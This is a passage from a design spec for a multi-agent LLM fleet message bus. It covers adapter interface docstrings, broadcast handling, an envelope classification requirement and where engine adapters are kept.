        fleet.broadcast.> are NOT delivered to on_envelope as instruction
        content. Adapter parses `payload.kind` (heartbeat|presence|capacity|
        cache_invalidate|config_reloaded — five kinds, all machine-structured;
        the `broadcast_note` free-text kind proposed in v7 was DROPPED in v8
        per SEV1-A and is REJECTED with an audit log entry if received),
        updates local state, and exposes the state via a `fleet_status` tool
        the LLM may query on demand. See §7.1.

        Deliver validated, non-duplicate, non-broadcast envelopes to on_envelope.
        Envelopes with `in_reply_to` set are replies to prior `.request` sends;
        pass through unchanged.
        """

    async def publish(self, envelope: Envelope) -> None:
        """Publish an outbound envelope (already validated against SPEC §5).

        Envelope MUST carry `payload.class` — one of the eight task classes in
        §7A.2 (SEV2-1 v6 conformance requirement). Adapters that fail to emit
        `payload.class` will have all their traffic pinned to `global_default`
        at the coordinator (default `approve` → HITL prompt every message).

        Handles baton field preservation. Awaits PubAck (JetStream is always on
        from FB-1 onward)."""

    async def stop(self) -> None:
        """Clean shutdown: cancel subscriptions, drain connection.
        Durable consumer stays registered on NATS (don't delete on stop)."""

    def capabilities(self) -> AdapterCapabilities:
        """Declare what this adapter supports: {jetstream: bool, batons: bool,
        dedup_store: 'sqlite' | 'redis' | ..., session_injection: 'notification'
        | 'stdin' | 'text_in_prompt', fleet_status_tool: bool, ...}.
        Coordinator uses this to gate features — e.g. bots without
        `fleet_status_tool` don't get broadcast state at all (see §7.1 —
        pre-v0.4 native harness has no tool loop, so it can only see broadcasts
        via the tap Discord mirror, not in-context)."""
```

Reference implementation: `artifice-ia/claude-discord` fleet-bus module (PR #22 shape). Vec's codex-container adapter (Phase 3 in flight). Third example: yugo native harness's own fleet-bus module (v0.3).

Adapters for engines yugo's owner CAN modify live in that engine's repo (Vec's `claude-discord`, Vec's `codex-container`, yugo's own native harness). Adapters for engines yugo's owner CANNOT modify (`nousresearch/hermes-agent`, other externals) live under yugo's `contrib-adapters/` per SEV2-vi v8 fix — same protocol contract, third-party status marked in the adapter registry. Yugo's `EngineAdapter` protocol is the shared contract; adapters that comply can be coordinated.
